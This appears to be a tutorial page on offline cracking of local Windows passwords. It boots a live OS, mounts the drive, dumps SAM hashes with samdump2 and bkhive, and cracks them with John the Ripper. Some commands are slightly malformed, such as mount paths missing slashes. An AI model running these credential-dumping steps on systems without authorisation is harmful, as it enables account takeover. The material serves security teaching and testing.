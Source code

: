 # Windows - Local Password Cracking

## Theory

Before we can crack passwords on a local machine, we first have to locate the password hash file.

In windows based systems, the hashes are stored in a special file called the Security Account Manager (SAM) file. On NT based windows systems including windows 2000 and above, the SAM file is located in the **`C:\Windows\System32\Config\`** directory.

Microsoft has added some additional security features to help protect the SAM file:

* The SAM file is actually locked when the OS boots up. This means that while the OS is running we do not have the ability to open or copy the SAM file. In addition to the lock, the entire SAM file is encrypted and not viewable.



***

## Practical

### Bypass Windows Restrictions

Because we have physical access to the system, the simplest way to bypass the windows proctections is to boot to an alternate OS like Kali and Parrot.

#### Mount the Local Hard Drive

```
# List availabe drives
fdisk -l

# Create a mount point
mkdir /mnt/sda1

# Mount the drive which contains windows folder
mount dev/sda1 mnt/sda1
```

#### Browse the C: drive

```
# Navigate to the SAM file
cd /mnt/sda1/Windows/system32/config
```

#### Extract Hashes

Dump hashes using samdump2

```
samdump2 system SAM > /tmp/hashes.txt
```

Extract key from the system file using bkhive

```
bkhive system sys_key.txt

# Extract hashes
samdump2 SAM sys_key.txt > /tmp/hash.txt
```

#### Crack Hashes using John

```
john /tmp/hashes.txt --format=nt

john /tmp/hashes.txt
```



***

## Steps to Perfrom on a Local Machine

* Shut down the target machine
* Boot the target to Kali or Parrot OS via a live CD or USB drive.
* Mount the local hard drive
* Use Samdump2 and extract the hashes
* Use John to crack the passwords.



***

## REFERENCES

* [https://www.nitttrchd.ac.in/imee/Labmanuals/Password%20Cracking%20of%20Windows%20Operating%20System.pdf](https://www.nitttrchd.ac.in/imee/Labmanuals/Password%20Cracking%20of%20Windows%20Operating%20System.pdf)
* [https://www.hackingarticles.in/multi-ways-to-crack-windows-10-password/](https://www.hackingarticles.in/multi-ways-to-crack-windows-10-password/)
* [https://traviswhitney.com/2016/12/30/using-samdump2/](https://traviswhitney.com/2016/12/30/using-samdump2/)

